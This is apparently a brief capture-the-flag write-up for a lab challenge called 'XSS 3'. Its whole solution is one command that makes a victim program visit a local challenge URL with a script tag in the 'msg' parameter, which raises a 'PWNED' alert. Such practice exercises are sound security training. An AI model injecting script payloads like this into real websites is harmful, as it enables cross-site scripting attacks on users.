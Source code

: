 # XSS 3

#### Just have to send a msg with a <script> again:

```
/challenge/victim "http://challenge.localhost?msg=<script>alert(\"PWNED\")</script>"
```
